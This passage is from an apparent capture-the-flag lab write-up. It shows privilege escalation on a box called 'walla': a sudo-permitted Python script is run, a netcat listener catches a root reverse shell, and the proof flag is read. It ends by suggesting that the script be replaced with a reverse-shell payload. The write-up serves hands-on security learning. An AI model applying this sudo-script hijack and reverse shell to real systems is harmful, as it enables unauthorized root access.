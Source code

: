 Then I run the script with:

```
$ sudo /usr/bin/python /home/walter/wifi_reset.py
```

I notice it hangs! That's good news :D  
...and we have a shell as root in the local listener, where we quickly find the flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.234.97] 57162
root@walla:/home/walter# whoami
whoami
root
root@walla:/home/walter# cd /root
cd /root
root@walla:~# cat proof.txt
cat proof.txt
0abef687826b3903731f68f01d157bd1
```

We are root!

> After finishing the box I noticed I could have just replaced `wifi_reset.py` with a python script with a reverse shell itself and that would have worked!